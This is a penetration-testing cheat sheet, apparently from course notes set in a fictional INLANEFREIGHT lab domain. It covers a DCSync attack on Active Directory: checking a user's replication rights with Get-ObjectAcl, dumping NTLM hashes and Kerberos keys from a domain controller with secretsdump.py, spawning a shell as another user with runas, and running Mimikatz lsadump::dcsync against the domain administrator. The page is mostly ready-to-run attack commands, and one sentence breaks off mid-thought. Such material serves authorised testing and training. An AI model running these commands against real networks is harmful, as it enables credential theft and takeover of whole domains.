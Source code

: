 ### Using Get-ObjectAcl to Check adunn's Replication Rights
```
PS > $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
PS > Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

### Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py
```bash
$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 

# NTLM authentication
$ secretsdump.py -outputfile inlanefreight_hashes <DOMAIN>/<USER>:<PASSWORD>@<DC_IP> 

# Hash authentication
$ secretsdump.py -outputfile inlanefreight_hashes -hash <DOMAIN>/<USER>@<DC_IP> 

# Kerberos authentication
$ secretsdump.py -outputfile inlanefreight_hashes -no-pass -k <DOMAIN>/<USER>@<DC_IP> 
```
We can use the -just-dc-ntlm flag if we only want NTLM hashes or specify -just-dc-user USERNAME to only extract data for a specific user. Other useful options include -pwd-last-set to see when each account's password was last changed and -history if we want to dump password history, which may be helpful for offline password cracking or as supplemental data on domain password strength metrics for our client. The -user-status is another helpful flag to check and see if a user is disabled. We can dump the NTDS data with this flag and then filter out disabled users when providing our client with password cracking statistics to ensure that data such as:

If we check the files created using the -just-dc flag, we will see that there are three: one containing the NTLM hashes, one containing Kerberos keys, and one that would contain cleartext passwords from the NTDS for any accounts set with reversible encryption enabled.

### Using runas.exe
```
> runas /netonly /user:INLANEFREIGHT\adunn powershell
```

### Performing the Attack with Mimikatz
```
PS > .\mimikatz.exe
mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```

* * *

# Domain Admin
Check [Dump NTDS.dit](#dump-ntdsdit)
